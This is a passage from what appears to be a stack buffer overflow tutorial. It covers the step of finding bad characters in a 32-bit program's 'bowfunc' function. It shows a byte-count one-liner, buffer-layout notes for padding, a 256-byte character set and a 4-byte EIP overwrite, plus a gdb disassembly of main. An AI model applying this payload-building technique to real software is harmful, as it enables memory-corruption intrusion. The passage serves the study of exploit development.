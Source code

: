 To calculate the number of bytes in our CHARS variable, we can use bash by replacing the "\\x" with space and then use `wc` to count the words.

#### Calculate CHARS Length

```shell
echo $CHARS | sed 's/\\x/ /g' | wc -w

256

```

This string is `256` bytes long. So we need to calculate our buffer again.

#### Notes

```shell
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4

```

Now let us have a look at the whole main function. Because if we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So we will set a breakpoint at the corresponding function so that the execution stops at this point, and we can analyze the memory's content.

```shell
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>: 	lea    ecx,[esp+0x4]
   0x56555586 <+4>: 	and    esp,0xfffffff0
   0x56555589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:	push   ebp
   0x5655558d <+11>:	mov    ebp,esp
   0x5655558f <+13>:	push   ebx
   0x56555590 <+14>:	push   ecx
   0x56555591 <+15>:	call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:	add    ebx,0x1a3e
   0x5655559c <+26>:	mov    eax,ecx
   0x5655559e <+28>:	mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:	add    eax,0x4
   0x565555a4 <+34>:	mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:	sub    esp,0xc
   0x565555a9 <+39>:	push   eax
   0x565555aa <+40>:	call   0x5655554d <bowfunc>		# <---- bowfunc Function
   0x565555af <+45>:	add    esp,0x10
   0x565555b2 <+48>:	sub    esp,0xc
   0x565555b5 <+51>:	lea    eax,[ebx-0x1974]
   0x565555bb <+57>:	push   eax
   0x565555bc <+58>:	call   0x565553e0 <puts@plt>
   0x565555c1 <+63>:	add    esp,0x10
   0x565555c4 <+66>:	mov    eax,0x1
   0x565555c9 <+71>:	lea    esp,[ebp-0x8]
   0x565555cc <+74>:	pop    ecx
   0x565555cd <+75>:	pop    ebx
   0x565555ce <+76>:	pop    ebp
   0x565555cf <+77>:	lea    esp,[ecx-0x4]
   0x565555d2 <+80>:	ret
End of assembler dump.

```
